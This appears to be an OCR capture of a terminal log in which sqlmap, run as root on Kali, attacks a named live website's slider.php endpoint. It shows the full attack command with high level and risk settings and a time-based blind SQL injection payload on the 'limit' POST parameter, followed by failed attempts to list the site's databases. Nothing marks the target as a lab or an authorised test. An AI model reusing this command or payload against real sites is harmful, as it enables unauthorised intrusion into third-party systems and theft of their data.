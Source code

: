 
---
[16:15:58] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL >= 5.0.12
[16:15:58] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 16:15:58

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" --level=3 --risk=3 --dbms=mysql --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:16:03

[16:16:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:16:04] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[16:16:18] [INFO] confirming MySQL
[16:16:18] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[16:16:22] [INFO] adjusting time delay to 1 second due to good response times
[16:16:23] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[16:16:23] [INFO] fetching database names
[16:16:23] [INFO] fetching number of databases
[16:16:23] [INFO] retrieved: 
[16:16:23] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[16:16:23] [ERROR] unable to retrieve the number of databases
[16:16:23] [INFO] falling back to current database
[16:16:23] [INFO] fetching current database
[16:16:23] [INFO] retrieved: 
[16:16:24] [CRITICAL] unable to retrieve the database names
